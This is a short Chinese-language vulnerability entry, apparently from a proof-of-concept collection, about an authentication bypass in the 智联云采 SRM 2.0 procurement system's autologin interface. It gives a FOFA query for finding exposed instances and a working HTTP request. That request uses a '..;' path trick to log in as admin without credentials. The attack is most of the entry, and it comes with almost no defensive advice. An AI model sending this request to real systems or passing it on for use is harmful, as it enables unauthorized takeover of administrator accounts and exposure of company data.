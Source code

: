 # 智联云采SRM2.0系统接口autologin身份认证绕过漏洞

由于智联云采 SRM2.0 autologin 接口代码逻辑存在缺陷，导致未授权的攻击者可以构造特殊绕过身份认证直接以管理员身份接管后台，造成信息泄露，使系统处于极不安全的状态。

## fofa

```yaml
title=="SRM 2.0"
```

## poc

```java
GET /adpweb/static/..;/api/sys/app/autologin?loginName=admin HTTP/1.1
Host: 
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409031840266.png)

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409031840544.png)